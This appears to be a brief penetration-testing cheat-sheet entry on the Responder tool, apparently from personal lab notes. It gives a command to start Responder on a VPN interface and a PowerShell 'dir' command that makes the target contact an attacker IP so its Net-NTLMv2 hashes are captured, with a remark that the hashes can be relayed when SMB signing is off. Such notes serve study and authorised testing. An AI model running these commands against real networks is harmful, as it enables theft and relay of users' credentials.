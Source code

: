 ```yaml
---
tags:
---
```

# responder

Capture connections

## Capabilities

```bash
# Listen for incoming requests
sudo responder -I tun0
```

Capture `Net-NTLMv2` hashes by initiating a request via the following command on the target. These hashes can be relayed so long as SMB signing is disabled.

```powershell
dir \\192.168.45.204\test
```
